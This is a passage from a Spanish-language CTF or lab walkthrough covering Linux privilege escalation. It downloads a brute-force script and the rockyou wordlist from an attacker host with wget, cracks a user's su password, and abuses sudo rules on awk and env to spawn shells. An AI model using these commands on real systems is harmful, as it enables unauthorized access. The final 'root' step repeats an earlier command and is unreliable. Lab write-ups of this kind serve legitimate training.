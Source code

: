 Desde la maquina objetivo con este comando: **( wget )** nos transferimos este archivos
```bash
wget http://192.168.100.24/rockyou.txt
wget http://192.168.100.24/Linux-Su-Force.sh
```

```bash
chmod +x Linux-Su-Force.sh
```

Ejecutamos las herramientas:
```bash
./Linux-Su-Force.sh mario rockyou.txt
```

**Hallazgos Clave:**
- Binario con privilegios: `[ Ninguno ]`
- Credenciales de usuario: `[ mario ]:[ password123 ]`
### Explotacion de Privilegios
```bash
# Comando para escalar al usuario: ( mario )
su mario ( password123 )
```

Ahora toca explotar los privilegios de este usaurio
```bash
# Comando para escalar al usuario: ( julen )
sudo -u julen /usr/bin/awk 'BEGIN {system("/bin/bash")}'
```

**Hallazgos Clave:**
- Binario con privilegios: `[ /usr/bin/awk ]`
- Credenciales de usuario: `[ jelen ]:[  ]`

```bash
User julen may run the following commands on 2e00a59d8d5d:
    (iker) NOPASSWD: /usr/bin/env
```

Ahora toca explotar los privilegios de este usaurio
```bash
# Comando para escalar al usuario: ( iker )
sudo -u iker /usr/bin/env /bin/bash
```

**Hallazgos Clave:**
- Binario con privilegios: `[ /usr/bin/env ]`
- Credenciales de usuario: `[ iker ]:[  ]`

```bash
User iker may run the following commands on 2e00a59d8d5d:
    (ALL) NOPASSWD: /usr/bin/python3 /home/iker/geo_ip.py
```

Ahora toca explotar los privilegios de este usaurio
```bash
# Comando para escalar al usuario: ( root )
sudo -u iker /usr/bin/env /bin/bash
```
